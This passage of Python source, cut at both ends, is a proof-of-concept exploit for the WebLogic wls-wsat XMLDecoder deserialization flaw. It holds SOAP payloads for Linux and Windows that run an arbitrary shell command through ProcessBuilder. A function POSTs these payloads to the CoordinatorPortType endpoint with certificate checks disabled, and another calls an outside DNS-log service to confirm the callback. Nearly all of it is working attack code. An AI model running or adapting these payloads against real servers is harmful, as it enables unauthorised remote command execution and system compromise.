 ```python
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Content-Type': 'text/xml;charset=UTF-8',
    }
linux_poc =r'''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>{0}</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
windows_poc=r'''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>C:\Windows\System32\cmd.exe</string>
              </void>
              <void index="1">
                <string>/c</string>
              </void>
              <void index="2">
                <string>{0}</string>
              </void>
            </array>
          <void method="start"/></void>
        </java>
      </work:WorkContext>
    </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
'''
def detect(url,data):
    try:
        req = requests.post(url + '/wls-wsat/CoordinatorPortType', data=data, verify=False, timeout=3, headers=heads)
        #print req.content
        req.close()
    except Exception as e:
        print e
def check_dnslog(host,port):
    verify_url= "http://admin.0y0.link/api/dns/{0}/{1}/".format(dnslog_address.split(".")[0],host)
    #verify_url = "http://dnslog/api.php?apikey=yoursapikey&action={action}&domain={host}"
```